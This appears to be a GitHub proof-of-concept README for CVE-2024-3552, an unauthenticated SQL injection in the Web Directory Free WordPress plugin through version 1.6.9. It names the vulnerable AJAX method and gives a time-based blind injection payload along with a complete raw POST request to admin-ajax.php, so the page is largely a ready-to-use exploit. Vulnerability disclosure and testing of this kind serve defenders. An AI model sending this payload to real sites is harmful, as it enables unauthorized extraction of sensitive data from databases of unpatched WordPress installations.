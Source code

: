 # CVE-2024-3552-Poc
CVE-2024-3552 Web Directory Free &lt;= 1.6.9 - Unauthenticated SQL Injection

File: https://github.com/truonghuuphuc/CVE-2024-3552-Poc/blob/main/web-directory-free.1.6.9.zip

Description

The Web Directory Free plugin for WordPress is vulnerable to SQL Injection in all versions up to, and including, 1.6.9 due to insufficient escaping on a user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/web-directory-free/web-directory-free-169-unauthenticated-sql-injection

File: /web-directory-free/classes/ajax_controller.php

Class: w2dc_ajax_controller

Method: get_map_marker_info

![image](https://github.com/truonghuuphuc/CVE-2024-3552-Poc/assets/20487674/04110eee-9b88-4440-a600-2a79a88692d1)


Payload: ```action=w2dc_get_map_marker_info&locations_ids[]=(select+if(1=1,sleep(5),0)+from+(select+1)x)```

Raw request:
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: <Host>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 95

action=w2dc_get_map_marker_info&locations_ids[]=(select+if(1=1,sleep(5),0)+from+(select+1)x)

```

Poc:

Url paload false:

![image](https://github.com/truonghuuphuc/CVE-2024-3552-Poc/assets/20487674/ddeda025-ed8c-484c-a3a0-3bdfb5487d26)


Url paload true:

![image](https://github.com/truonghuuphuc/CVE-2024-3552-Poc/assets/20487674/88da4ff6-5575-44da-8e84-c6b63ed2afb2)



https://github.com/truonghuuphuc/CVE-2024-3552-Poc/assets/20487674/96a92b63-a6ff-49b8-803a-ec9624c368d6

